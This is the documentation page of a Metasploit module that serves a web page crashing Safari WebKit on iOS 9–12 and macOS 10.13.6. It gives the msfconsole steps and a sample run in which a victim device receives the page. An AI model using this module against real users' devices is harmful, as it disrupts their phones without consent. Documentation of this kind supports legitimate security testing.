 ## Vulnerable Application

This module exploits a vulnerability in Safari WebKit to crash the device.
The bug affects all iOS devices running iOS 9 up to iOS 12 and Safari on OSX 10.13.6

The device will "re-spring" the operating system, but not actually restart the device.

## Verification Steps

1. Start msfconsole
1. Do: `use auxiliary/dos/apple_ios/webkit_backdrop_filter_blur`
1. Do: `set URIPATH /` (Optional)
1. Do: `run`
1. When you visit the page on a vulnerable device, it should crash the operating system

## Scenarios

### Safari 602.1 on iOS 10.1.1

```
msf > use auxiliary/dos/apple_ios/webkit_backdrop_filter_blur
msf auxiliary(dos/apple_ios/webkit_backdrop_filter_blur) > set URIPATH /
URIPATH => /
msf auxiliary(dos/apple_ios/webkit_backdrop_filter_blur) > run

[*] Using URL: http://0.0.0.0:8080/
[*] Local IP: http://192.168.0.1:8080/
[*] Server started.
[*] 192.168.0.2: Sending response to User-Agent: Mozilla/5.0 (iPod touch; CPU iPhone OS 10_1_1 like Mac OS X) AppleWebKit/602.2.14 (KHTML, like Gecko) Version/10.0 Mobile/14B150 Safari/602.1

```
